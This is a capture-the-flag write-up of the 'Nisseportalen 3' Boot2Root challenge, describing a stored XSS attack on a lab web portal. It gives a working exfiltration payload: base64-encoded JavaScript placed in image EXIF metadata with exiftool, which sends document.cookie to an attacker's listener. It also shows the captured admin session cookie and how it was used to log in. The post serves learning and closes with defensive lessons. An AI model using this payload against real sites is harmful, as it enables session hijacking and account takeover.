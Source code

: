 +++
title = 'Nisseportalen 3'
categories = ['Boot2Root']
date = 2024-12-15T13:35:38+01:00
scrollToTop = true
+++

## Challenge Name:

Nisseportalen 3

## Category:

Boot2Root

## Challenge Description:

Nissernes største ønske er en portal til deling af alle deres AI-genererede billeder aka Nisseportalen. Projektet er dog i fare efter Nissedevs utallige fiaskoer med både Dangerzone og Nissezonen.

Praktikantnissen har fået til opgave at redde Nisseportalen og få ryddet op i Nissedevs rod. Kan du hjælpe med at redde Nisseportalen og finde alle de sårbarheder, der må være, så projektet endelig kan blive gjort færdigt?

Men vær beredt, det er ikke til at sige hvad Nissedev har haft gang i...

[https://tryhackme.com/jr/nisseportalen2o24](https://tryhackme.com/jr/nisseportalen2o24)

## Approach

We pick up where we left off in [Nisseportalen 2](/nc3/boot2root/nisseportalen-2) and now have a foothold on the webapp.
We now have authenticated access to the webapp and therefore revisit all the previously identified pages!

### Enumeration

On /portal/list.php we can now see the previously identified images, in the billeder.txt file, being rendered.

![List of images](images/list.png)

Besides that we only have the /portal/upload.php page left to explore.

This is the part I spent the longest time on in the challenge, but ultimately I revisited the description, in which this phrase stood out to me:
"Projektet er dog i fare efter Nissedevs utallige fiaskoer med både Dangerzone og Nissezonen."
This indicted to me that there might be some "previous projects" to check out"!
I started out scanning for subdomains, without any luck, but then started searching for previous NC3 CTFs and discovered that the previous year's CTF had these challenges!
https://blog.danniranderis.dk/2021/12/16/danish-christmas-ctf-2021-by-nc3-police-intermediary-dangerzone-1-4/
https://nissen96.github.io/CTF-writeups/writeups/2022/NC3-CTF-2022/Nissezonen.html

After a thorough readthrough of the writeups I understood that with the help of XSS, we might be able to steal a session cookie and log in as an admin!

### Exploitation

In order to achieve this, we need to Add a malicious payload to an image EXIF metadata and then upload the image to the webapp at /portal/upload.php!

In order to edit image metadata, we can use exiftool to add the payload to the image EXIF metadata

The payload we want to add to the image is:

```bash
<img src='http://My-IP/hacked.jpg' oNlOaD="eval(atob('base64 encodeded payload here'))">
```

With the base64 encoded malicious payload:

```bash
var cookies = document.cookie ? encodeURIComponent(document.cookie) : 'nothing';
var my_endpoint = 'http://MY-IP:1337/cookie/' + cookies + '.jpg';
var my_img = '<img src=' + my_endpoint + '>';
document.write(my_img);
```

The transformation of the payload to base64 and the final exiftool command to add the payload to the image:

```bash
echo "var cookies = document.cookie ? encodeURIComponent(document.cookie) : 'nothing';var my_endpoint = 'http://10.10.51.96:1337/cookie/' + cookies + '.jpg';var my_img = '<img src=' + my_endpoint + '>';document.write(my_img);" | base64

exiftool -comment="<img src='http://10.10.51.96:1337/hacked.jpg' oNlOaD=\"eval(atob('dmFyIGNvb2tpZXMgPSBkb2N1bWVudC5jb29raWUgPyBlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQuY29va2llKSA6ICdub3RoaW5nJzt2YXIgbXlfZW5kcG9pbnQgPSAnaHR0cDovLzEwLjEwLjUxLjk2OjEzMzcvY29va2llLycgKyBjb29raWVzICsgJy5qcGcnO3ZhciBteV9pbWcgPSAnPGltZyBzcmM9JyArIG15X2VuZHBvaW50ICsgJz4nO2RvY3VtZW50LndyaXRlKG15X2ltZyk7Cg=='))\">" hacked.jpg
```

We upload the image to the webapp and refresh the /portal/list.php page in order to execute the evaluation of our evil payload!

![Hacked](images/payload.png)

```bash
python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...

10.10.20.207 - - [18/Dec/2024 21:58:02] "GET /hacked.jpg HTTP/1.1" 200 -
10.10.20.207 - - [18/Dec/2024 21:56:01] "GET /cookie/SESSID%3D643a51b9d31a97143f720067886343a883a6b1aabf02ed583dde2af945eb2777%3B%20PHPSESSID%3D643a51b9d31a97143f720067886343a883a6b1aabf02ed583dde2af945eb2777.jpg HTTP/1.1" 404
```

With a little bit of python magic we can transform the SESSID cookie to a format that we can use to log in as an admin!

```bash
echo "SESSID%3D643a51b9d31a97143f720067886343a883a6b1aabf02ed583dde2af945eb2777%3B%20PHPSESSID%3D643a51b9d31a97143f720067886343a883a6b1aabf02ed583dde2af945eb2777" | python3 -c "import sys, urllib.parse; print(urllib.parse.unquote(sys.stdin.read().strip()))"

SESSID=643a51b9d31a97143f720067886343a883a6b1aabf02ed583dde2af945eb2777; PHPSESSID=643a51b9d31a97143f720067886343a883a6b1aabf02ed583dde2af945eb2777
```

And voilà, we have stolen the session cookie and can now log in as an admin and visit /portal/admin.php!

![Admin page](images/admin.png)

### Getting third flag

It seems a bit of final investigation is needed in order to find the third flag, but after simply testing a few commands in the input box, we get the flag and we can submit the third flag and move on to [Nisseportalen 4](/nc3/boot2root/nisseportalen-4)!

![Admin inputbox](images/inputbox.png)

![Flag](images/flag.png)

## Flag

```text
NC3{Flag3:N1553D3v_5yn32 DU_F0r7j3N3R_37_fl49}
```

## Reflections and Learnings

### Remember that CTFs may have some history!

Revisiting the challenge description proved invaluable. The reference to past projects like “Dangerzone” and “Nissezonen” hinted at a potential vulnerability to explore, which ultimately led to the discovery of an XSS attack vector by reading through old writeups from previous years NC3 CTFs!

### The Power of Cross-Site Scripting (XSS)

This challenge highlighted how XSS, often considered a low-priority vulnerability, can escalate into serious exploitation when combined with creative payloads. Injecting malicious payloads into image metadata was an innovative application of XSS, which proves why it deserves to be an OWASP top 10.

### EXIF Metadata as an Attack Vector

Using tools like exiftool to inject payloads into image metadata demonstrated how unconventional entry points, such as file metadata, can be exploited to compromise a system.

### Session Hijacking through Cookies

The successful theft of an admin session cookie using an XSS payload emphasized the critical need for secure cookie handling, including using the HttpOnly flag to prevent client-side scripts from accessing cookies!
